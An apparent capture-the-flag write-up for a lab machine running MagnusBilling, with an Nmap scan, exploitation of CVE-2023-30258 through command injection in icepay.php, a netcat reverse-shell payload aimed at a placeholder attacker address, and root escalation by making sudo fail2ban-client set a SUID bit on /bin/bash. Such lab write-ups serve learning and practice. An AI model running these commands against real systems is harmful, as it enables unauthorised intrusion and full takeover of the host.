




# Billing
### Users
```
asterisk
magnus
```
## Portscan
```
Nmap scan report for 10.10.1.211
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.1.211/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 14 08:07:36 2025 -- 1 IP address (1 host up) scanned in 9.44 seconds
```
## Web Enumeration

### Fuzzing


**CMS:** Magnus Billing
* README.md file discloses version
* Vulnerable to **CVE-2023-30258**
* Vulnerable file in **/mbilling/lib/icepay/**



## Foothold / Privilege Escalation

### Initial Foothold
CVE-2023-30258 enables me to get a reverse shell in the machine as the asterisk user.
There are two ways of exploiting this CVE. one way is throught the metasploit module, where you select the target host and your listener host. The other way involves manually intercepting the request from the php file of the Icepay software which is vulnerable to command injection due to the exec() function it performs.

### Exploting CVE-2023-30258
1. Capturing the request

* Using burpsuite access /lib/icepay/icepay.php and send the request to the repeater

2. Crafting the payload and obtaining a reverse shell

* Using ```nc -e /bin/bash <ATTACKER_IP> <LISTEN_PORT>``` as the payload, I can use the exploit to get a reverse shell into the machine

### Privilege Escalation
User asterisk has sudo permissions on the /usr/bin/fail2ban-client


I googled around and found the article mentioned below on techniques for escalating priveleges using fail2ban-client.
I wasn't able to escalate privileges how the article explained since I need write privileges to the iptables-multiport.conf file. But, I am still able to use fail2ban-client as sudo.
I parsed through the fail2ban-client help menu and saw an interesting command.


This enables me to manually update the actionban command and perform another command when I ban an IP with fail2ban-client.
To do this I entered:\
```sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban 'chmod +s /bin/bash' ```
* This command sets the actionban to giving the /bin/bash binary a SUID bit whenever I ban an IP address

After setting the custom action that will perform after banning an IP, I just had to ban an IP address and the /bin/bash binary will have a SUID bit.\
```sudo /usr/bin/fail2ban-client set sshd banip 8.8.8.8```


## Journal
https://juggernaut-sec.com/fail2ban-lpe/
* Article for privilege escalation via fail2ban